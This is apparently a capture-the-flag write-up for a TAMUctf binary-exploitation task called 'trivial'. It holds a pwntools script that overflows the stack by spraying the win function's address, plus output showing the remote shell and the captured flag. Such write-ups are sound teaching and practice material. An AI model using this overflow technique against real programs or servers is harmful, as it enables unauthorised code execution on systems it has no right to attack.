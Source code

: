 ## Question 

Author: Lane
Attack the server and get the flag!
SNI: trivial

[trivial](trivial)

## Solution

Just sprayed the address of the win function across the stack. 

```python
from pwn import *

e = context.binary = ELF(args.BIN)

p = remote("tamuctf.com", 443, ssl=True, sni="trivial")
win = p64(e.sym['win'])

p.sendline(win*100)
p.interactive()
```

Running it returns the flag

```
$python3 pwn-trivial.py BIN=./trivial
[*] '/root/workspace/tamu-ctf/trivial/trivial'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to tamuctf.com on port 443: Done
[*] Switching to interactive mode
$ cat flag.txt
gigem{sorry_for_using_the_word_trivial}
```